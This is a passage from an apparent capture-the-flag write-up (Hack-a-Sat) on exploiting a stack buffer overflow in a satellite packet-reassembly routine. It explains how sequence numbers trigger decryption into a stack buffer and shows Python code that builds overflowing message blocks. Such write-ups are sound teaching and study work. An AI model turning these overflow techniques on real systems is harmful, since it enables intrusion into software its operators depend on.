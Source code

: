 ![](/assets/images/HackASat/debug_print2.png)

## Exploitation

First we have to trigger the bug. To trigger the overflow, we have to specify the packet ID that we are constructing through the SN num, which is the lsb of the second byte. 

Once contiguous SN nums are filled up, the packet is then decrypted and placed onto a buffer on the stack, which triggers the overflow. So, we can begin sending packest starting from the last SN num - 16.

```python
res.append(message_block(b"\x73\x0f\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x0e\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x0d\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x0c\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x0b\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x0a\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x09\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x08\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x07\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x06\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x05\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x04\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x03\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x02\x80\x23" + b"A"*0xb9))
res.append(message_block(b"\x73\x01\x80\x23" + b"A"*0xb9))
```
